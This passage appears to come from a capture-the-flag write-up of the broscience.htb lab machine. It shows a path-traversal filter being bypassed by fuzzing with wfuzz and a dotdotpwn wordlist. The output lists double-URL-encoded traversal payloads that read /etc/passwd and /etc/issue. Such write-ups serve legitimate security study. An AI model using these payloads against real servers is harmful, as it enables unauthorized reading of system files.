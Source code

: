 ![](/img/image-20230330162659784.png)

If I try to visit anything with `../` in the path, it just returns
"Attack detected":

![](/img/image-20230330163045462.png)

#### Fuzzing

There's a really nice traversal wordlist
[here](https://github.com/foospidy/payloads/blob/master/other/traversal/dotdotpwn.txt)
that will try all sorts of tests. I'll use `wfuzz` (I can't use `ffuf`
until [this bug](https://github.com/ffuf/ffuf/issues/645) is fixed) to
try all these, filtering out any response with the string "Attack" and
any with 0 size:



    oxdf@hacky$ wfuzz -u https://broscience.htb/includes/img.php?path=FUZZ -w dotdotpwn.txt --hs Attack --hh 0
    ********************************************************
    * Wfuzz 3.1.0 - The Web Fuzzer                         *
    ********************************************************

    Target: https://broscience.htb/includes/img.php?path=FUZZ
    Total requests: 4648

    =====================================================================
    ID           Response   Lines    Word       Chars       Payload                                                                                                        
    =====================================================================

    000000166:   200        2 L      5 W        27 Ch       "..%252f..%252f..%252f..%252f..%252f..%252fetc%252fissue"
    000000165:   200        39 L     64 W       2235 Ch     "..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd"
    000000162:   200        2 L      5 W        27 Ch       "..%252f..%252f..%252f..%252f..%252fetc%252fissue"
    000000161:   200        39 L     64 W       2235 Ch     "..%252f..%252f..%252f..%252f..%252fetc%252fpasswd"
    000000158:   200        2 L      5 W        27 Ch       "..%252f..%252f..%252f..%252fetc%252fissue"
    000000157:   200        39 L     64 W       2235 Ch     "..%252f..%252f..%252f..%252fetc%252fpasswd"

    Total time: 46.66168
    Processed Requests: 4648
    Filtered Requests: 4642
    Requests/sec.: 99.61064
